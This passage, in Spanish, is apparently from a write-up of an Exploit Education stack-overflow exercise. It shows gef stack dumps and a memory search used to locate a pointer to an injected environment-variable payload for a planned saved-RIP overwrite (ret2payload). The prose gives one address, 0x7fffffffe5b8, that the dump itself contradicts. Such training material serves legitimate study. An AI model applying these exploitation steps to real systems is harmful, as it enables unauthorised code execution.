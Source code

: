 En este punto inspeccionamos la pila con `x/50xg $rsp` y confirmamos que:

- En la posición `0x7fffffffe5c0` se encuentra la **dirección de retorno a `main+0`** (`0x40079b`).
- Justo después, en `0x7fffffffe5b8`, aparece el **puntero a nuestro payload** (`0x7fffffffef10`), que apunta directamente a la cadena de `'A'` inyectada desde la variable de entorno `ExploitEducation`.

Esto confirma que:

1. **El payload ya tiene una referencia en el stack** → el programa guarda un puntero que apunta a los datos que controlamos.
2. Si logramos sobrescribir el **saved RIP** con esta dirección (`0x7fffffffef10`), podremos redirigir el flujo de ejecución hacia el buffer y ejecutar el shellcode contenido ahí.
3. Se valida que el **ret2payload es posible**, dado que tenemos tanto la dirección base del payload como un puntero confiable a él en el stack.

```csharp
gef➤  x/50xg $rsp
0x7fffffffe5b0:	0x00007fffffffe628	0x00000001ffffe638
0x7fffffffe5c0:	0x000000000040079b	0x00007fffffffef10
0x7fffffffe5d0:	0x0000000000000001	0x00007ffff7d8fd62
0x7fffffffe5e0:	0x0000000000000000	0x00007fffffffe620
0x7fffffffe5f0:	0x0000000000000000	0x00007ffff7ffdbc8
0x7fffffffe600:	0x0400000100003e00	0x00000000004005c9
0x7fffffffe610:	0x0000000000000000	0x00000000004005a6
0x7fffffffe620:	0x0000000000000001	0x00007fffffffe82b
0x7fffffffe630:	0x0000000000000000	0x00007fffffffe848
0x7fffffffe640:	0x00007fffffffee04	0x00007fffffffee2f
0x7fffffffe650:	0x00007fffffffee44	0x00007fffffffee51
0x7fffffffe660:	0x00007fffffffee5b	0x00007fffffffee6a
0x7fffffffe670:	0x00007fffffffee73	0x00007fffffffee83
0x7fffffffe680:	0x00007fffffffeea0	0x00007fffffffeeb3
0x7fffffffe690:	0x00007fffffffeebf	0x00007fffffffeed3
0x7fffffffe6a0:	0x00007fffffffeee3	0x00007fffffffeef7
0x7fffffffe6b0:	0x00007fffffffeeff	0x00007fffffffef90
0x7fffffffe6c0:	0x00007fffffffef9d	0x0000000000000000
0x7fffffffe6d0:	0x0000000000000021	0x00007ffff7ff8000
0x7fffffffe6e0:	0x0000000000000010	0x00000000078bfbfd
0x7fffffffe6f0:	0x0000000000000006	0x0000000000001000
0x7fffffffe700:	0x0000000000000011	0x0000000000000064
0x7fffffffe710:	0x0000000000000003	0x0000000000400040
0x7fffffffe720:	0x0000000000000004	0x0000000000000038
0x7fffffffe730:	0x0000000000000005	0x0000000000000007
gef➤
```

Se verifica la **posición exacta del puntero al payload** en la pila. Con `find /g` se busca la dirección `0x7fffffffef10` (inicio de los `'A'` en el entorno) en el rango cercano a `$rsp`, y se obtiene **`0x7fffffffe5c8`**. Esto nos da un **ancla fiable en el stack** para calcular offsets y preparar el exploit, asegurando que el **saved RIP** pueda reescribirse para saltar correctamente al payload.

```csharp
gef➤  find /g $rsp-0x2000, $rsp+0x800, 0x7fffffffef10
0x7fffffffe5c8
1 pattern found.
gef➤ 
```
